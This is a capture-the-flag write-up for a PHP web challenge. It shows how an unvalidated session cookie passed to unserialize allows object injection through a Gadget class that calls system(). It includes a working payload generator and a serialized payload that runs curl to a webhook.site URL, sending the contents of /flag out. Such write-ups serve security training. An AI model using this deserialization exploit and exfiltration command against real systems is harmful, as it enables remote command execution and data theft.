

# Underrated

## Summary

Flag: `UAD360{L0v3_th1s_s3r13!}`

Description: Now you can save your favorite series, which one is yours?

## Write-up

Here is the source code of the website:

```html
<!DOCTYPE html>
<html>
    <head>
        <title>ToWatch</title>
    </head>
    <body>
        <!-- /?debug -->
        <h1>Pick your favourite series</h1>
        <form method="POST">
            <input type="text" name="name">
            <input type="submit" name="submit"/>
        </form>
    </body>
</html>
```

Accesing the endpoint `/?debug` we can now see the backend source code:

```php
<?php

class Gadget{
    public $cmd = 'whoami';
    public function __destruct() {
        system($this->cmd);
    }
}

if (isset($_GET['debug'])) {
    highlight_file(__FILE__);
    exit;
}

if (!isset($_COOKIE['session'])) {
    $series = [];
    setcookie("session", serialize($series));
} else {
    $series = unserialize($_COOKIE['session']);
}


if (isset($_POST['submit']) && isset($_POST['name'])) {
    $series[] = $_POST['name'];
    setcookie("session", serialize($series));
}

?>

<!DOCTYPE html>
<html>
    <head>
        <title>ToWatch</title>
    </head>
    <body>
        <!-- /?debug -->
        <h1>Pick your favourite series</h1>
        <form method="POST">
            <input type="text" name="name">
            <input type="submit" name="submit"/>
        </form>

        <?php

            foreach($series as $name) { 
                echo "<p>" . $name . "<p/>";
            }
        ?>
    </body>
</html>
```

From the official php documentation about [`unserialize`](https://www.php.net/manual/es/function.unserialize.php):



Session cookie is not validated, so we can create arbitrary php objects and abuse `unserialize`. Luckily, we have `Gadget` class available that will execute arbitrary commands when there are no more references to the instance.

We can create a small PHP script to generate the payload:

```php
<?php

class Gadget{
    public $cmd = 'curl https://webhook.site/5b235ac2-f2cf-4d55-b628-c85783b74db4/?flag=`cat /flag`';
    public function __destruct() {
        system($this->cmd);
    }
}

$gadget = new Gadget();

echo serialize($gadget);
?>
```

The payload would look something like this:
```
O:6:"Gadget":1:{s:3:"cmd";s:80:"curl https://webhook.site/5b235ac2-f2cf-4d55-b628-c85783b74db4/?flag=`cat /flag`";}
```

Finally, we set the session cookie with the payload url encoded.